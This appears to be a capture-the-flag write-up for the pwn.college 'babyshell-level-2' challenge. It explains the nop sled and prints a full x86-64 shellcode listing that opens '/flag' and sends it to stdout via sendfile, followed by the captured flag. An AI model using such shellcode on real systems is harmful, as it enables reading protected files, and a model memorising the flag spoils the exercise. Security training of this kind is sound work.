 ```shell

This challenge will randomly skip up to 0x800 bytes in your shellcode. You better adapt to that! One way to evade this
is to have your shellcode start with a long set of single-byte instructions that do nothing, such as `nop`, before the
actual functionality of your code begins. When control flow hits any of these instructions, they will all harmlessly
execute and then your real shellcode will run. This concept is called a `nop sled`.

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x00007ffdfa3d1216 | 90                                            | nop 
0x00007ffdfa3d1217 | 90                                            | nop 
0x00007ffdfa3d1218 | 90                                            | nop 
0x00007ffdfa3d1219 | 90                                            | nop 
0x00007ffdfa3d121a | 90                                            | nop 
0x00007ffdfa3d121b | 90                                            | nop 
0x00007ffdfa3d121c | 90                                            | nop 
0x00007ffdfa3d121d | 90                                            | nop 
0x00007ffdfa3d121e | 90                                            | nop 
0x00007ffdfa3d121f | 90                                            | nop 
0x00007ffdfa3d1220 | 48 bb 2f 66 6c 61 67 00 00 00                 | movabs rbx, 0x67616c662f
0x00007ffdfa3d122a | 53                                            | push rbx
0x00007ffdfa3d122b | 48 c7 c0 02 00 00 00                          | mov rax, 2
0x00007ffdfa3d1232 | 48 89 e7                                      | mov rdi, rsp
0x00007ffdfa3d1235 | 48 c7 c6 00 00 00 00                          | mov rsi, 0
0x00007ffdfa3d123c | 0f 05                                         | syscall 
0x00007ffdfa3d123e | 48 c7 c7 01 00 00 00                          | mov rdi, 1
0x00007ffdfa3d1245 | 48 89 c6                                      | mov rsi, rax
0x00007ffdfa3d1248 | 48 c7 c2 00 00 00 00                          | mov rdx, 0
0x00007ffdfa3d124f | 49 c7 c2 e8 03 00 00                          | mov r10, 0x3e8
0x00007ffdfa3d1256 | 48 c7 c0 28 00 00 00                          | mov rax, 0x28
0x00007ffdfa3d125d | 0f 05                                         | syscall 
0x00007ffdfa3d125f | 48 c7 c0 3c 00 00 00                          | mov rax, 0x3c
0x00007ffdfa3d1266 | 0f 05                                  [*] Process '/challenge/babyshell-level-2' stopped with exit code 1 (pid 894)
       | syscall 

Executing shellcode!

pwn.college{gqfbZixmEcLpVzXdW1B270mn2zk.0FOxIDL4czN0czW}
[*] Got EOF while reading in interactive
$  
```

### Flag

> pwn.college{gqfbZixmEcLpVzXdW1B270mn2zk.0FOxIDL4czN0czW}
